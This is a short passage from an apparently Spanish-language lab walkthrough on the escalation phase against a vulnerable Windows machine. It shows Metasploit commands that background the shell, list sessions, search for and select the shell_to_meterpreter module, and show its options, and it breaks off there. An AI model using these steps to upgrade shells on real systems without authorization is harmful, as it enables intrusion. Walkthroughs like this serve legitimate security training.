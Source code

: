 ## 3. ESCALATE

Pulsamos CTRL + Z para dejar la maquina windows vulnerable en segundo plano y pasamos a mirar las sesiones.

```bash 

session -l

```

![Sesiones](img/9.png)

Una vez comprobado que existe la sesion de la maquina windows, vamos a cambiar nuestra consola a una consola meterpreter.
Buscamos la consola meterpreter y usamos el modulo 0.

```bash 

search shell_to_meterpreter
use 0

```

![Meterpreter](img/10.png)

Pasamos a ver las opciones. 

```bash 

show options

```
